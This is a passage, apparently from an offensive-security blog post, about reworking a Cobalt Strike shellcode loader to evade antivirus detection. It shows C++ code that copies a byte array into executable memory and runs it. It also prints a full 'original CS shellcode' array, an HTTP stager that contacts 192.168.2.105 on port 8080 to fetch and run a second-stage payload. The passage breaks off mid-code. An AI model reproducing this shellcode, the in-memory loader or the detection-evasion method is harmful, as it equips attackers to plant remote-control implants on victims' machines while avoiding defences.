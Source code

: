 ```cpp
  // https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memmove-wmemmove
  memcpy(
    exec,     // Copying into exec (the memory space)
    newArray,     // From the whole array
    sizeof newArray // With a length of the array (obviously)
  );

  // Execute the code in the reserved memory location
  ((void(*)())exec)();
  
  return 0;
}
```

This got detected upon compilation, leading me to initially suspect `VirtualAlloc` and `memcpy` as being flagged for unsafe use. However, it was actually my reconstruction section. After all, my method was quite simple.

I decided to rewrite it as follows:

```c
#include <stdio.h>

int main() {
  // Original CS shellcode
  unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";

  // Copy/paste wrapper
  printf("\nunsigned char shiftedArray[] = \"");
```